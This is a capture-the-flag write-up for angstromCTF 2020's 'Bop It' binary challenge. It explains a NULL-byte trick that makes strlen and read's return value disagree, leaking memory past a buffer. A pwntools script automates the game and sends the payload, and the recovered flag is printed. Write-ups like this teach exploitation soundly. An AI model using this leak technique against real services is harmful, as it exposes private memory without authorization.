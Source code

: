 # Bop It  
### Category: binary  
### Description:  
Can you [bop it](bop_it)? [Source](bop_it.c). Connect with `nc shell.actf.co
20702`.  
### Author: kmh

### Solution:  
In this challenge we got an ELF in which there is a little game that consist
in sending the first letter of what it gives us unless we get `Flag it!`.  
If we get flag statement it reads the flag from the file and asks us for it so
it can check the two strings. Whenever we send a string it sets `guessLen` to
the return vale of `read` function which returns the amount of data readed. If
we send a wrong flag it builds an error string with what we sent but there is
a problem: the buffer is built with the return value of `strlen` on our string
incremented by 35, in the end it prints out this buffer with the length set
with guessLen. How can we exploit this? With a NULL byte overflow!  
If we send a `\x00` followed by a random data we increment the return value of
guessLen but not the value of strlen so we can build a small `wrong` buffer
but guessLen is still large enough to leak memory! Let's build a python
automation script to play it and spray random data:

```py  
from pwn import *  
import time

def run(size):  
   p = remote('shell.actf.co', 20702)  
   exploit = '\x00' + 'A'*size

   while True:  
       a = p.readuntil('it!')  
       if 'Bop' in a:  
           p.sendline('B')  
       if 'Twist' in a:  
           p.sendline('T')  
       if 'Pull' in a:  
           p.sendline('P')  
       if 'Flag' in a:  
           p.sendline(exploit)  
           a = p.recvall()  
           print(a)  
           return  
  
for i in range(35, 150, 10):  
        run(i)  
```  
Let's run it and after some attempt we get the flag!

### Flag:  
```  
actf{bopp1ty_bop_bOp_b0p}  
```

Original writeup
(https://github.com/r00tstici/writeups/blob/master/angstromCTF_2020/bop_it/README.md).